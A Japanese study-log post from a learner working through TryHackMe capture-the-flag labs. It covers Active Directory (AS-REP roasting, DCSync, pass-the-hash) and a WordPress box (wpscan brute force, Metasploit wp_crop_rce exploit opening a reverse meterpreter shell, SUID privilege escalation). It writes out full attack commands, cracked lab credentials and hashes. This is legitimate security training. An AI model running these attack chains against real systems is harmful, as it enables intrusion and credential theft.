- Webサーバーでファイルアップロードを可能にしておくのは危険
- ファイルアップロードの拡張性制限をしていても、自書攻撃ですぐバレる
- PHPがファイルアップロード・実行できると、	Firewallをすり抜けてリバースシェルでshellを奪われる
- 不用意に実行ファイルにSUIDを付与していると脆弱性となり昇格権限されてしまう

## Day6：ActiveDirectoryへの攻撃
[Attacktive Directory](https://tryhackme.com/room/attacktivedirectory)  
ActiveDirectoryは、会社や学校などの組織のPCを一元管理するWindowsサーバー上で動作するシステム。
ActiveDirectoryで利用されるKerberos認証の脆弱性をハッキングして、不正ログインと権限昇格をする。

### 事前準備：kerbruteのインストール
書籍のkerbrute_linux_amd64はUTM上では動かないそうなので下サイトに従って対応する。
- [書籍「7日間でハッキングをはじめる本」をM1Macで完遂できるようにしたこと](https://qiita.com/yama53san/items/dc96912ff565143c51ed)

git からkerbruteをclone
```
git clone https://github.com/ropnop/kerbrute.git
```

Makefileを編集
```
ce kerbrute
nano Makefile
```

ARCHSの文末にarm64を追記
```
ARCHS=amd64 386 arm64
```

以下を管理者権限で実行
```
sudo apt update
sudo apt install golang-go
```

buildの成功
```
┌──(kali㉿kali)-[~/7DaysHacking/Day6/kerbrute]
└─$ make linux
Building for linux amd64...
Building for linux 386...
Building for linux arm64...
Done.
```

dist配下に`kerbrute_linux_arm64`ができているので実行してスクリプトが流れたら大丈夫。



### 偵察
まずはいつも通り、nmapでネットワークを調査してみる。以下をチェック
- 88:kerberos
- 135:RPC(Remote Procedure Call)
- 139/445:SMB
- 3389:Windowsのリモートデスクトップ

```
Host is up (0.33s latency).
Not shown: 987 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-20 03:47:10Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

対象を絞って調査
```
nmap -p 88,135,139,3389 -A -Pn -oN nmap-2.txt -v 10.10.x.x
```
結果は以下にドメイン名があることがわかる
- NetBIOS_Domain_Name: THM-AD
- DNS_Domain_Name: spookysec.local
今後はspookysec.localのドメインを利用する。

```
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-04-20T03:49:34+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2025-04-20T03:49:21+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```


### ActiveDirectoryとは
ActiveDirectoryは所属するユーザーID/パスワード管理やユーザー認証、認可ログの集約などを一元管理することができる。
一元管理できることは便利ではあるが、攻撃の対象になりやすい。
- ドメイン：情報を管理する範囲
- ドメインコントローラー：ドメイン情報を持っているサーバー

[Active Directory（アクティブディレクトリ）とは？初心者にもわかりやすく解説](https://www.ntt.com/business/services/security/security-management/wideangle/lp/lp10.html)

### Kerberos認証とは
Kerberos認証とは、クライアントに対して、認証を行いチケットを払い出して、サービスの利用を許可する仕組み。
登場する用語は以下の通り。

|略称|正式名称|役割・説明|
|:----|:----|:----|
|KDC|Key Distribution Center|認証の中枢。以下のASとTGSを内包する。|
|｜--- AS|Authentication Server|クライアントの認証を行い、TGTを発行する。|
|｜--- TGS|Ticket Granting Server|TGTを使ってサービス用のチケット（ST）を発行する。|
|TGT|Ticket Granting Ticket|一時的な認証トークン。TGSにサービスチケット(ST)を要求する際に使用される。|
|ST|Service Ticket|サービスにアクセスするためのチケット。サーバーがこのチケットを確認して許可する。|

認証のイメージとしては以下。
最初にTGTを認証によって払い出してもらって、TGTを利用してSTを払い出してもらうという流れ。

[【図解】初心者にも分かるKerberos認証とspnegoの仕組み ～SSOのシーケンス,統合windows認証について～](https://milestone-of-se.nesuke.com/sv-advanced/activedirectory/kerberos-spnego/)

### AS-REP Roasting攻撃
Kerberosの設定において、認証を簡略化した方法を利用している場合脆弱性となりうる。
- 前提
    - ASに対してTGTを発行を発行してもらう際「事前認証」設定がある
    - 事前認証では、時間などをユーザーの秘密鍵を利用して暗号化してもらうことで本人確認を行う
    - 本人確認が取れたらTGTをレスポンスする
    - TGTの事前認証については、必須ではないためスキップが可能
    - TGTの中にはパスワードのハッシュ値が入っているが、暗号化されているのでTGTが流出しても本来は利用できない
- 攻撃方法
    - 事前認証をスキップになっているユーザーを調査
    - 事前認証をスキップしてTGTを取得
    - TGTのハッシュをクラッシュしてパスワードを割り出す

#### Kerbruteでユーザー調査
事前準備でkerbruteの実行はできているので、攻撃対象の設定をする。

kali上の`/etc/hosts`にIPとドメインの名前解決の設定をしておく
```sh
sudo nano /etc/hosts
```
最終行に以下を追加(間はtab)
```
10.10.x.x   spookysec.local
```
試しにPingを打って返事が来ればOK
```sh
ping spookysec.local
-->64 bytes from spookysec.local (10.10.100.203): icmp_seq=1 ttl=124 time=720 ms
-->64 bytes from spookysec.local (10.10.100.203): icmp_seq=1 ttl=124 time=720 ms
```

攻撃用のユーザーリストとパスワードリストについては今回TryHackMeのRoomのTask4に準備されているのでDLしておく。
本来は、元々Kaliに準備されている辞書を利用するべきだが、今回は事前準備されているものを利用する。
```sh
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
```

Userを割り出すためにKerbruteを利用して実行
- userenum: ユーザー名の列挙
- -d: 対象ドメイン指定
- --dc: ドメインコントローラー指定
- userlist.txt: 利用する辞書
```sh
./kerbrute/dist/kerbrute_linux_arm64 userenum -d spookysec.local --dc spookysec.local userlist.txt
```


結果として最初からいるアカウント（ビルトインアカウント）でもないし重要性なユーザーっぽいのでこの辺りに狙いを定める
- svc-admin@spoolysec.local
- backup@spookysec.local


### TGTの取得とハッシュからパスワードをクラッシュ
#### Impacketを利用したTGTの取得
Impacketは、さまざまなプロトコルをプログラムから操作しやすくなるためのライブラリやツールの集まり。
GetNPUser.pyを利用して、取得したユーザーを利用してTGTを取得してみる

以下を実行してパスワードは未記入でEnter
```sh
./GetNPUsers.py spookysec.local/svc-admin   
```
得られたTGTが以下
```sh
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:f~~~~~555
```
得られたHash値はhash.txtに書き込んでおく

#### Hashのクラッシュ
取得できたTGTのハッシュからhashcatを利用してhash解析をしてパスワードを取得。

hashcatでは、解析したいハッシュ対象を指定するため、確認するとAS-REQは18200
```sh
┌──(kali㉿kali)-[~/7DaysHacking/Day6]
└─$ hashcat -h |grep Kerberos
  19800 | Kerberos 5, etype 17, Pre-Auth                             | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol
```
hashcatを実行してみると、management2005がパスワードとわかる！
```sh
Dictionary cache built:
* Filename..: passwordlist.txt
* Passwords.: 70188
* Bytes.....: 569236
* Keyspace..: 70188
* Runtime...: 0 secs
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:f~~~~~555:management2005
```

IDとパスワードからSMBサービスにログインをしてみる。
SMBのポートを利用してファイルサーバーにアクセスしてみる
```sh
┌──(kali㉿kali)-[~/7DaysHacking/Day6]
└─$ smbclient -L \\\\spookysec.local -U svc-admin    
Password for [WORKGROUP\svc-admin]:management2005

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to spookysec.local failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```
backupの中身からbackupユーザーのIDとPWを取得
```sh
┌──(kali㉿kali)-[~/7DaysHacking/Day6]
└─$ smbclient  \\\\spookysec.local\\backup -U svc-admin
Password for [WORKGROUP\svc-admin]:management2005
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Apr  5 04:08:39 2020
  ..                                  D        0  Sun Apr  5 04:08:39 2020
  backup_credentials.txt              A       48  Sun Apr  5 04:08:53 2020
       
                8247551 blocks of size 4096. 3668238 blocks available
smb: \> get backup_credentials.txt 
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \> exit

┌──(kali㉿kali)-[~/7DaysHacking/Day6]
└─$ less backup_credentials.txt 

┌──(kali㉿kali)-[~/7DaysHacking/Day6]
└─$ cat backup_credentials.txt 
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw       
```

最後に、得られた値がBase64dエンコードされている可能性があるので解読すると`backup2517860`がパスワードとわかる
```sh
┌──(kali㉿kali)-[~/7DaysHacking/Day6]
└─$ cat backup_credentials.txt|base64 -d                        
backup@spookysec.local:backup2517860
```


### DCSync攻撃
DCSync攻撃とは、ドメインコントローラーのバックアップ権限を持っているユーザーを利用して、バックアップ時にパスワード情報を抜き取る。
ActiveDirectoryでは、パスワード情報などを暗号化したNTLMハッシュとして保管されている。

#### Impacketを利用したDCsync
Impacketのツールを利用して、DCsyncを実行
```sh
┌──(kali㉿kali)-[~/7DaysHacking/Day6]
└─$ ./secretsdump.py -just-dc-ntlm backup@spookysec.local -outputfile spookysec
Impacket v0.11.0 - Copyright 2023 Fortra

Password:backup2517860
```
結果として、NTLMハッシュが出力され、AdminのパスワードのNTLMハッシュ値`0e0~~4fc`が取得できる
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
~~~
~~~
```


### Pass the HashでAdminをハック
NTLMでは、ユーザー名とハッシュ化されたパスワードが保管されている。
`Pass the Hash`ではユーザー情報とハッシュをそのまま利用して認証を済ましてしまうNTLM認証の脆弱性を突いて、ユーザーになりすます。

Evil-WinRMというツールを利用することでPass the Hash攻撃を行ってroot.txtを取得
```sh
┌──(kali㉿kali)-[~/7DaysHacking/Day6]
└─$ evil-winrm -i spookysec.local -u Administrator -H 0e0363213e37b94221497260b0bcb4fc

~~~
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ../Desktop/root.txt
TryHackMe{4ctiveD1rectoryM4st3r}
```


### Day6勉強したこと
- ActiveDirecrotyは組織のPCなどの管理を行うサービス
- ActiveDirectoryにはKerberos認証を利用されている
- Kerberosで事前認証をOFFにすると脆弱性となりうる
- 認証のチケットと認可のチケットを利用するが認証チケットからパスワードが解析される可能性あり
- ActiveDirectoryのbackup権限を持つユーザーを奪われるとパスワード全体が流出する可能性あり

## Day7
[blog](https://tryhackme.com/room/blog)  
ブログなどを公開するためのサービスであるWordPressに対して攻撃をする。
WordPressに対して、自書攻撃をしてアプリにログインをしたり、脆弱性からサーバーのOSユーザーをハックしてから権限昇格をする。

### 偵察
nmapで偵察をしてみる
- 22:SSH
- 80:WordPressでWordPressのバージョンは少し古い
- 139/445:Sambda
```sh
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| ~~
80/tcp    open     http            Apache httpd 2.4.29 ((Ubuntu))
| ~~
|_/wp-admin/
|_http-generator: WordPress 5.0
| ~~
139/tcp   open     netbios-ssn     Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open     netbios-ssn     Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```


### smbclientへの攻撃
smbclinetを利用して共有フォルダを探索してみると、anonymousユーザーでログインできるBillySMBファイルを発見。その中のファイルを3つDLできる
```
┌──(kali㉿kali)-[~/7DaysHacking/Day7]
└─$ smbclient -L \\\\blog.thm                    
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        BillySMB        Disk      Billy's local SMB Share
        IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
                                                                            
┌──(kali㉿kali)-[~/7DaysHacking/Day7]
└─$ smbclient  \\\\blog.thm\\BillySMB
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed May 27 03:17:05 2020
  ..                                  D        0  Wed May 27 02:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Wed May 27 03:17:01 2020
  tswift.mp4                          N  1236733  Wed May 27 03:13:45 2020
  check-this.png                      N     3082  Wed May 27 03:13:43 2020
 
                15413192 blocks of size 1024. 9788760 blocks available
smb: \> get Alice-White-Rabbit.jpg
getting file \Alice-White-Rabbit.jpg of size 33378 as Alice-White-Rabbit.jpg (7.1 KiloBytes/sec) (average 7.1 KiloBytes/sec)
```

#### ステガノグラフィ
テキスト・音声・画像ファイルなどに隠しテキストを埋め込むことができる技術。
`steghide`というツールを利用すると隠しテキストの埋め込みや抽出が可能。

今回はjpegに対して、抽出を実行してみるとrabbit_hole.txtが取得できる。
しかし中身はRabbit_Hole（迷宮に迷い込んでいる）とのことでSambda側はハズレ。

```sh
┌──(kali㉿kali)-[~/7DaysHacking/Day7]
└─$ sudo apt install steghide     
~~~

┌──(kali㉿kali)-[~/7DaysHacking/Day7]
└─$ steghide extract -sf Alice-White-Rabbit.jpg 
Enter passphrase: 
wrote extracted data to "rabbit_hole.txt".
```


### WordPressのアプリへの攻撃
npmapの結果から、Wordpressを利用しており、/wp-admin/に管理者画面がある。

WordPressは利用者が多いアプリケーションのため、専用のスキャナがありユーザーを探索することができる。
wpscanというコマンドを実行してユーザーを炙り出すと以下のユーザーがいることがわかる
- kwheel
- bjoel
```
┌──(kali㉿kali)-[~/7DaysHacking/Day7]
└─$ wpscan --url http://blog.thm --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.24
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________


[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
```

ユーザーがわかったので、パスワードについては辞書攻撃で突破してみる。
- `kwheel`のパスワードが`cutiepie1`
```sh
──(kali㉿kali)-[~/7DaysHacking/Day7]
└─$ wpscan --url http://blog.thm -U kwheel,bjoel -P /usr/share/wordlists/rockyou.txt --password-attack wp-login -t 4

[!] Valid Combinations Found:
 | Username: kwheel, Password: cutiepie1
```

WordPressに対してログインすることができ、Author権限を得ることができた。
一方でアプリの侵入はできたがサーバーのOSには侵入できていないので別の攻撃を試してみる。

### WordPressのサーバーへの攻撃
#### 脆弱性の調査
nmapの結果からWordPressのバージョンが古いことはわかっているので脆弱性をネットで調査すると2つ脆弱性があるらしい
- CVE-2019-8942
- CVE-2019-8943


#### Metasploitを利用した攻撃
Metasploitを利用して、CVE-2019-8942の脆弱性を突いてみる
```sh
┌──(kali㉿kali)-[~/7DaysHacking/Day7]
└─$ msfconsole
                                                  
msf6 > search CVE-2019-8942

Matching Modules
================

   #  Name                            Disclosure Date  Rank       Check  Description
   -  ----                            ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce  2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_crop_rce) > 
```

各種設定を指定して、実行してみる
```sh
msf6 exploit(multi/http/wp_crop_rce) > set password cutiepie1
password => cutiepie1
msf6 exploit(multi/http/wp_crop_rce) > set rhosts blog.thm
rhosts => blog.thm
msf6 exploit(multi/http/wp_crop_rce) > set username kwheel
username => kwheel
msf6 exploit(multi/http/wp_crop_rce) > set lhost 10.17.30.207
lhost => 10.17.30.207
msf6 exploit(multi/http/wp_crop_rce) > show options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   cutiepie1        yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     blog.thm         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THEME_DIR                   no        The WordPress theme dir name (disable theme auto-detection if provided)
   USERNAME   kwheel           yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host
```

結果として、www-dataの権限を取得できた。
```sh
msf6 exploit(multi/http/wp_crop_rce) > exploit

[*] Started reverse TCP handler on 10.17.30.207:4444 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39927 bytes) to 10.10.172.46
[*] Attempting to clean up files...
[*] Meterpreter session 1 opened (10.17.30.207:4444 -> 10.10.172.46:45924) at 2025-04-26 10:53:17 +0900

meterpreter > getuid
Server username: www-data
```

### 権限昇格
adminなどの強い権限を取得するために脆弱性を調査する。
#### LinPEAS
ターゲットサーバーへの初期侵入が完了後、実行することで権限昇格できそうなミスを探すためのツール。

#### LinPEASをターゲットへアップロード
取得方法はローカルマシーンでLinPEASをDLしておいて、ローカルでサーバーを立てる。その後進入済みのマシーンからローカルマシーンに対してDLするような処理で行う。

#### LinPEASの実行
実行すると実行権限に`s`がついているコマンドを発見。
```
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                              
                      ╚════════════════════════════════════╝                       
~~~
-rwsr-sr-x 1 root root 8.3K May 26  2020 /usr/sbin/checker (Unknown SUID binary!)
~~~
```
中身としては、現実味がないので割愛するが、このコマンドの脆弱性を突いてrootに昇格。

### Day7勉強したこと
- wordpressは有名すぎてスキャンや辞書攻撃のツールが簡単に利用できる
- WordPressなどのアプリもバージョンが古いままだと脆弱性があるので、msfconsoleなどですぐに攻撃できてしまう
- 小さな権限ユーザーでも侵入されると、`LinPEAS`などで権限昇格できないかすぐに調査されてしまう